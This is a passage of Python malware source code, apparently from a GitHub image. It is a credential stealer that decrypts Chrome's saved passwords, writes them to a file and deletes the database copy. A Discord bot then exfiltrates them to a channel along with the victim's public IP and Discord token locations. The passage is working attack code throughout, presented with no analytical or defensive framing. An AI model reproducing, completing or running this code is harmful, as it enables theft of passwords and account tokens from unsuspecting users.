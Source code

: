 ```
            if host.startswith('android'):
                continue
            name = row[1]
            value = self.cdecrypt(row[2])
            _info = '[==================]\nhostname => : %s\nlogin => : %s\nvalue => : %s\n[==================]\n\n' % (host, name, value)
            self.passwordList.append(_info)
        conn.close()
        os.remove(db_file)

    def cdecrypt(self, encrypted_txt):
        if sys.platform == 'win32':
            try:
                if encrypted_txt[:4] == b'\x01\x00\x00\x00':
                    decrypted_txt = dpapi(encrypted_txt)
                    return decrypted_txt.decode()
                elif encrypted_txt[:3] == b'v10':
                    decrypted_txt = decryptions(encrypted_txt)
                    return decrypted_txt[:-16].decode()
            except WindowsError:
                return None
        else:
            pass

    def saved(self):
        try:
            with open(r'C:\ProgramData\passwords.txt', 'w', encoding='utf-8') as f:
                f.writelines(self.passwordList)
        except WindowsError:
            return None

@bot.event
async def on_ready():
    print(f'Logged in as {bot.user}')
    
    channel = bot.get_channel(CHANNEL_ID)
    if not channel:
        print(f"Could not find channel with ID: {CHANNEL_ID}")
        return
    
    main = chrome()
    try:
        main.chromedb()
    except Exception as e:
        print(f"Error getting Chrome passwords: {e}")
    main.saved()
    
    await exfiltrate_data(channel)
    
    await bot.close()

async def exfiltrate_data(channel):
    try:
        hostname = requests.get("https://ipinfo.io/ip").text
    except:
        hostname = "Unknown"
    
    local = os.getenv('LOCALAPPDATA')
    roaming = os.getenv('APPDATA')
    paths = {
        'Discord': roaming + '\\Discord',
        'Discord Canary': roaming + '\\discordcanary',
        'Discord PTB': roaming + '\\discordptb',
```